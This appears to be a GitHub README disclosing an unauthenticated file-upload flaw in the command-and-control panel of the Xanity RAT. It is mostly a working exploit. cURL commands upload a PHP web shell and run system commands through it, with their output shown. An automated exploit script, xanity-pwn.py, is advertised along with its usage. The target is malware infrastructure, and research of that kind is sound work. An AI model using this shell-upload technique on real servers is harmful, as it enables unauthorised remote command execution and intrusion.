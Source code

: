 # TorCTPwn

I was having a look at the C&C panel of the [Xanity RAT](https://github.com/alienwithin/xanity-php-rat) for a bit of amusement, and noticed that it suffers an absurdly trivial shell upload vulnerability, outlined below.

See: [upload.php](https://github.com/alienwithin/xanity-php-rat/blob/master/server-files/upload.php) and note we can upload whatever the hell we want to a place with whatever name we want. Trivial shell upload with no auth or anything.

PoC using cURL:
```
$ curl -F name=lol.php -F file=@/tmp/lol.php http://localhost/upload.php?d=lol
1
$ curl http://localhost/lol/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ curl http://localhost/lol/lol.php?1=uname
Linux
$ 
```

For shits and giggles, there is also an automated exploit for this in this repo.
```
$ python xanity-pwn.py 
use: xanity-pwn.py http://xanity.skids/upload.php /your/shell.php
$ python xanity-pwn.py http://localhost/upload.php /tmp/lol.php 
[+] Shell Uploaded! It should be in: http://localhost/lol/lol.php
$ curl http://localhost/lol/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
